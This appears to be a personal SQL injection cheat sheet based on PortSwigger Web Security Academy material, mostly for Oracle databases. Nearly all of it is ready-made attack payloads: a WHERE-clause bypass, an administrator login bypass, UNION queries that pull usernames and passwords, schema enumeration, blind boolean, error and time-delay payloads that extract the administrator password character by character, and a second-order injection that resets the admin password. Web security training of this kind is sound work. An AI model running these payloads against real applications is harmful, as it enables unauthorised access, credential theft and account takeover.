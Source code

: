 https://portswigger.net/web-security/sql-injection  
*Note: all code below are meant for OracleDB (except `information_schema` related), please check [Syntax Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) for other variants'*  

### WHERE Clause
`SELECT * FROM products WHERE category = '{}' AND released = 1`  
Attack (GET URL): ?category='+OR+1%3d1--  

### Login Bypass (Subvert Logic)
`SELECT * FROM users WHERE username = '{}' AND password = '{}'`  
Attack (POST Method): username=administrator'--&password=123  

### UNION Attacks
**Conditions**  
1. Both queries must return same number of columns  
`ORDER BY {index number}`  
2. Compatible data types in each column  
`UNION SELECT NULL,'a',NULL,NULL`  

**Techniques**  
1. Retrieving multiple values within a single column (concatenation)  
`UNION SELECT NULL,username||'~'||password FROM users`  

### Examine Database
`SELECT banner FROM v$version`  
`SELECT table_name FROM all_tables`  
`SELECT column_name FROM all_tab_columns WHERE table_name='{}'`  

**Non-Oracle DB:**  
`SELECT table_name FROM information_schema.tables`  
`SELECT column_name FROM information_schema.columns WHERE table_name='{}'`  

### Blind SQLi
Backend Query: `SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '{}'`  

**Techniques**  
1. Conditional Responses  
possible due to observable difference in response  
`' AND '1'='1`  
`' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = 'a`  
2. Conditional Responses by triggering SQL errors  
possible due to mishandling of SQL errors  
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'` (check if username 'administrator' exists)  
`'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`  
3. Time Delays  
possible due to synchronous processing of SQL queries  
**MySQL:** `'; IF (1=1) SELECT SLEEP(10)--`  

### Second-order SQLi
Input is safely handled initially and stored in database, but when data is later accessed and processed...  
*Username:* `badguy'; UPDATE users SET password='letmein' WHERE user='administrator'--`  
Backend Query: `SELECT * from user_options WHERE username='{}'`
